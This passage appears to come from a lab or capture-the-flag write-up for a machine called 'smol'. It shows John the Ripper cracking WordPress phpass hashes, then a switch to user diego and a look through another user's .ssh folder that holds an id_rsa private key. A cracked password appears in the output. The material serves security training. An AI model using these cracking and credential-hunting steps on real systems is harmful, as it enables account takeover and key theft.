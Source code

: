 ...And finally there are `phpass`  encrypted hashes on the wordpress database


![](https://i.imgur.com/v1CwGi7.png)


With this the analyst was able to save this hashes into a text and got a hit 4 minutes into the hash cracking process on the user `diego`

```bash
❯ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=phpass
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (phpass [phpass ($P$ or $H$) 256/256 AVX2 8x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:04:55 4.86% (ETA: 12:36:25) 0g/s 2709p/s 13549c/s 13549C/s scarab45..savemyself
sandiegocalifornia (?)     
1g 0:00:20:10 23.30% (ETA: 12:21:44) 0.000826g/s 2920p/s 12772c/s 12772C/s stephendavies26..stephc621
1g 0:00:20:11 23.32% (ETA: 12:21:44) 0.000825g/s 2920p/s 12769c/s 12769C/s step1213..stemi2emmy
1g 0:01:06:18 DONE (2025-03-31 12:01) 0.000251g/s 3605p/s 14752c/s 14752C/s !!!@@@!!!..*7¡Vamos!
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed. 

```

Switched user to `diego` with the password discovered 

```bash
www-data@smol:/tmp$ su diego
Password: 
diego@smol:/tmp$ whoami
diego
```

Checking the home folder of user `think`, the analyst found an `id_rsa` file used to login via the SSH protocol


```bash
diego@smol:/home$ cd think
diego@smol:/home/think$ ls -la
total 32
drwxr-x--- 5 think internal 4096 Jan 12  2024 .
drwxr-xr-x 6 root  root     4096 Aug 16  2023 ..
lrwxrwxrwx 1 root  root        9 Jun 21  2023 .bash_history -> /dev/null
-rw-r--r-- 1 think think     220 Jun  2  2023 .bash_logout
-rw-r--r-- 1 think think    3771 Jun  2  2023 .bashrc
drwx------ 2 think think    4096 Jan 12  2024 .cache
drwx------ 3 think think    4096 Aug 18  2023 .gnupg
-rw-r--r-- 1 think think     807 Jun  2  2023 .profile
drwxr-xr-x 2 think think    4096 Jun 21  2023 .ssh
lrwxrwxrwx 1 root  root        9 Aug 18  2023 .viminfo -> /dev/null
diego@smol:/home/think$ cd .ssh
diego@smol:/home/think/.ssh$ ls -la
total 20
drwxr-xr-x 2 think think    4096 Jun 21  2023 .
drwxr-x--- 5 think internal 4096 Jan 12  2024 ..
-rwxr-xr-x 1 think think     572 Jun 21  2023 authorized_keys
-rwxr-xr-x 1 think think    2602 Jun 21  2023 id_rsa
-rwxr-xr-x 1 think think     572 Jun 21  2023 id_rsa.pub
diego@smol:/home/think/.ssh$
```
